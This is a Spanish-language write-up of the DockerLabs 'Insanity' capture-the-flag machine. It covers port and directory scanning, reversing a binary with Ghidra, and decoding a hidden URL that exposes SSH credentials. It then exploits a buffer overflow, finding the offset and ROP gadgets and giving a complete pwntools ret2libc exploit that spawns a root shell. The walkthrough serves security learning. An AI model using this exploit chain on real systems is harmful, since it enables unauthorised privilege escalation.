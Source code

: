 nmap: 22,80

![image](https://github.com/user-attachments/assets/9a5132f3-0a20-4689-8f07-2f6823477b83)

si entramos a la pagina es un apache como nombra en el nmap, entramos al código fuente y nos mostrara esto

![image](https://github.com/user-attachments/assets/5a899861-971f-45a2-beae-b6e4991f89c1)

lanzamos un gobuster 

     gobuster dir -u http://insanity.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt -t 100 -k

y obtenemos 

![image](https://github.com/user-attachments/assets/5ba202fc-7a78-4e33-81a2-bf844081ce3d)

entramamos y obtenemos

![image](https://github.com/user-attachments/assets/c86393b4-2728-4a69-8cdb-396aa439403e)

los descargamos y ejecutamos

![image](https://github.com/user-attachments/assets/4de4dd06-7a32-4ff1-a316-ea41755b6da0)

con secret obtenemos que es una clave incorrecta y con libcredenciales.so da segmentation fault, probando no obtenemos nada. así que vamos a utilizar ghidra para ver el contenido del código 

Lo importante que entendí del código
> Primero que hay un wget así que descarga un archivo
> g(): Define un arreglo de valores o sea local_4d8, local_4d4 y así. 
> usa b() para convertir estos valores en una cadena
> También  llama a "a()" para cada valor en un arreglo de enteros
>o sea vería así: b(long param_1, int param_2, long param_3)

así que basado en esto podemos decodificar con un código python

![[decode2.png]]

con este código lo vamos a lanzar con python3

     def transform_value(value):
    special_cases = {
        0x1B: 0x3A,
        0x1C: 0x2F,
        0x1D: 0x2E,
        0x1E: 0x5F
    }
    
    if value in special_cases:
        return special_cases[value]
    elif 1 <= value <= 0x1A:
        return value + 0x60
    else:
        return 0x3F
        
        def convert_values_to_string(values):
    return "".join(chr(transform_value(value)) for value in values)
    
    values = [
    8, 20, 20, 16, 27, 28, 28, 9, 14, 19, 1, 14, 9, 20, 25, 29, 4, 12, 28, 21,
    12, 20, 18, 1, 30, 19, 5, 3, 18, 5, 20, 30, 6, 15, 12, 4, 5, 18, 11, 13, 1 ]
    result = convert_values_to_string(values)
    print("Resultado:", result)


y obtenemos esto

![image](https://github.com/user-attachments/assets/6e3e218e-779d-4a2d-b7ef-cf7153ea8469)

> http://insanity.dl/ultra_secret_folderkma

![[dockerlabs/dificil/Insanity/credenciales.png]]

tenemos las credenciales de SSH

![[dockerlabs/dificil/Insanity/conexion.png]]

tenemos la conexión ahora vamos buscando y encontramos esto

![[over.png]]

vamos a lanzar ahí mismo 

     gdb -q ./vuln

ahora colocamos los que nos dio el código

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400 

![[meta.png]]

ahora en el gdb lanzamos una r y ahora colocamos el resultado

![[resul.png]]

obtenemos este resultado

    0x0000000000401189 in vuln ()

ahora lanzamos en nuestra terminal

    python2 -c 'print("A"*136 + "BBBBBB")'

en el gdb lanzamos run y colocamos el nuevo resultado y obtenemos

    0x0000424242424242 in ?? ()

![[resul2.png]]

entonces cambio porque en el primer "ataque" aparece la protección, si lanzamos un "info frame" mostrara si se ejecuta correctamente pero como se vio muestra la protección, ahora que lanzamos tomando en cuenta el "136" le sumamos las B o sea "136 + 6 B"
y podemos obtener el ultimo resultado. ahora quedaría encontrar la direccion de memoria que seria el "sh"

![[memoria.png]]

veremos si esta ahí y efectivamente esta 

![[memoria2.png]]

ahora seria buscar la dirección de memoria pero de system, con el comando 

    p system

y nos dará

![[system.png]]

encontré este comando que es para ver si se encuentra ahí
 
     ROPgadget --binary ./vuln

de muchas lineas que nos da, nos interesa una

     0x0000000000401016 : ret

así que obtenemos la dirección de ret, ahora buscamos la de pop rdi

     ROPgadget --binary ./vuln | grep "pop rdi"

y me dio

     0x0000000000401165 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401168 : mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401167 : mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret
     0x000000000040116a : pop rdi ; nop ; pop rbp ; ret
     0x0000000000401166 : push rbp ; mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret

la que buscábamos es la 

     0x000000000040116a 

ahora con todos los valores creamos un código python que contenga los valores

![[exploit.png]]


este es el código 

     from pwn import *
     binary_path = '/opt/vuln'
     binary = ELF(binary_path)
     p = process(binary_path)
     
     gadgets = {
    "pop_rdi_ret": 0x40116a,
    "ret": 0x401016         
    }
    addresses = {
    "bin_sh": 0x7ffff7f73031, 
    "system": 0x7ffff7e29490  
    }
    
    offset = 136                  
    payload = b"A" * offset        
    payload += p64(gadgets["pop_rdi_ret"])  
    payload += p64(addresses["bin_sh"])     
    payload += p64(gadgets["ret"])         
    payload += p64(addresses["system"])    
    
    def exploit():
    p.sendline(payload)
    p.interactive()
    
    if __name__ == "__main__":
    exploit()


ahora los pasamos a la maquina victima y lo ejecutamos

![[dockerlabs/dificil/Insanity/root.png]]

y somos root! 
